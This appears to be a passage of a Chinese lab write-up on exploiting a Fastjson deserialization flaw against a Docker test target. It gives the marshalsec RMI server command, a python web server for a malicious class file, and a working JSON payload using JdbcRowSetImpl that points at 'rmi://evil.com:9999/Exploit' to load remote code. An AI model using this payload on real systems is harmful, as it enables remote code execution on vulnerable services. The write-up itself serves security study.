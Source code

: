防止远程类利用失败，Kali 需同样使用 Java 1.8 的环境进行编译

利用 Python 快速启动临时 web 服务，这样后续漏洞利用时，靶机可以访问到该目录下的文件

**要确保启动 web 服务的目录下存在刚刚编译完成的 class 文件**

```bash
python3 -m http.server 8080
# -m Python解释器在执行命令行时,直接从标准库中查找指定的模块,并执行该模块中的代码
```

利用 marshalsec 工具：https://github.com/mbechler/marshalsec

借助 marshalsec 项目，启动一个 RMI 服务器，监听 9999 端口，并指定加载远程类 TouchFile.class

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.1.9:8080/#TouchFile" 9999
```

向靶场服务器发送 payload：

![image-20230723012333055](https://pic.mewhz.com/blog/image-20230723012333055.png)

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
        # 该类放入缓存，反序列化时会先加载此类
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}
```

```bash
docker exec -it 93f /bin/bash
```

![image-20230723013251365](https://pic.mewhz.com/blog/image-20230723013251365.png)

创建成功~

![image-20230722023701480](https://pic.mewhz.com/blog/image-20230722023701480.png)

![image-20230722023708803](https://pic.mewhz.com/blog/image-20230722023708803.png)

web 服务和 RMI 服务均有反应~

---

### 参考资料
